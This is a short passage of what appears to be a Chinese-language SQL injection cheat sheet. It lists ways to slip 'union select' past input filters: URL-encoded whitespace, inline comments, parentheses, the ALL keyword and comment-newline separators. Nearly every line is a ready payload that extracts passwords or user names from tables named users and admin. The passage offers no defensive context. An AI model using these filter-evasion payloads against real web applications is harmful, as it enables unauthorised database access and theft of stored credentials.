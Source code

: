 (1) 空白符

`%09,%0a,%0b,%0c,%0d,%20`

```
id= 1  union%0aselect 1,user,3 from admin
```


(2)注释

` /*!*/ /**/ `

```
id= 1  union /**/select 1,user,3 from admin
```


(3)括号
```
union(select  1,(password),3,4,5,6 from(users)) %23  
```


(4) ALL | DISTINCT | DISTINCTROW

```
union ALL select  1,password,3 from users %23
```


(5)函数分隔

```
%09%0A
%0D%0b
%0b%0A
%09%0C
%09%23%0A
--%0A
%23%0A
--+\N%0A
%23%f0%0A
...
```

```
union%23%0Aselect  1,password,3 from users %23

union-- xx%0Aselect  1,password,3 from users %23
```


##### 位置三

(1) 空白符

`%09,%0a,%0b,%0c,%0d,%20`
```
union select %09 1,password,3 from users %23
```

